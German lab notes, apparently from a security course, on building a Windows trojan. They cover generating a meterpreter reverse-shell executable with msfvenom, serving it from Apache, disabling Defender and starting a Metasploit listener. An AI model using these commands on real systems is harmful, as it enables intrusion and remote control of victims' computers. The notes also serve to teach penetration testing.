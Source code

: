 ```yaml
---
title: Trojaner
---
```




Ziel: Kontrolle über das Opfersystem (Windows) erlangen durch eine reverse shell. Der Windows User muss (durch einen Trick) dazu gebracht werden ein Programm zu starten.



# Apache

Auf Kali Dateien über Apache Web Server zum Download bereitstellen

```sh
$ service apache2 start	
```

Test ob Apache Webserver läuft:

```sh
$ netstat -tlpn | grep 80
```



# Windows

- Windows Defender (ev. dauerhaft) deaktivieren
- Windows Firewall kann aktiv bleiben



# Reverse shell

Erzeugen mit msfvenom eine Programm das eine reverse shell zur Verfügung stellt. Beim Starten baut dieses Programm eine Verbindung mit der angegebenen IP und Portnummer auf.

Port 8080, TCP:

```sh
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.178.81 LPORT=8080 -f exe -o mp_tcp_rev_shell_8080.exe
$ cp mp_tcp_rev_shell_8080.exe /var/www/html
```

`http://192.168.178.81/mp_tcp_rev_shell_8080.exe`

Listener unter Metasploit:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.178.81
set lport 8080
run
```
